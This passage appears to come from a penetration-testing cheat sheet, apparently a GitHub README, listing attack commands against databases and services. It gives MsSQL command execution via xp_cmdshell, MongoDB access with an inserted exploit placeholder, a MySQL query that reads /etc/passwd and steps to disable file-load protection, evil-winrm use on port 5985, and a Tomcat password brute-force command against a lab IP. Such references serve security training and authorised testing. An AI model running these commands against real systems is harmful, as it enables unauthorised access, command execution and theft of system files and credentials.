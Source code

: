 
#### Existing databases

**MsSQL**:

```sh
sqsh -S <IP> -U <USER> -P <PASSWORD>
# known elevation technique for MsSQL
xp_cmdshell 'whoami';
go
```

**MongoDB**:

```sh
mongo -u <USER> -p <PASSWORD> <HOST:PORT/DB>
# get mongo shell
> db
> show collections
> db.task.find()
> db.task.insert(<EXPLOIT>)
```

**MSQL**:

Load external file into db:

```sql
load data infile '/etc/passwd/'
# load data local infile "../index.php"
into table test
fields terminated by "/n"
```

Disable security in the configuration: `secure-file-priv = ""` and enable local files if necessary: `SET GLOBAL local_infile=1;`


#### Port 5985

If this port is open, it's possible there is an instance of Windows Remove
Management system. You can use
[EvilRM](https://github.com/Hackplayers/evil-winrm) to connect to the target
after you got credentials.

[Go to Post-Exploitation](#post-exploitation)

#### Port 8080

By default, Tomcat can run on port 8080. If this is the case, there are a couple
of exploitation you might look into:

* bruteforce:

You can find this script in the subfolder scripts in this repo.

```sh
ruby tomcat-brute.rb -w tomcat-betterdefaultpasslist.txt -H 10.10.10.95 -P 8080
```
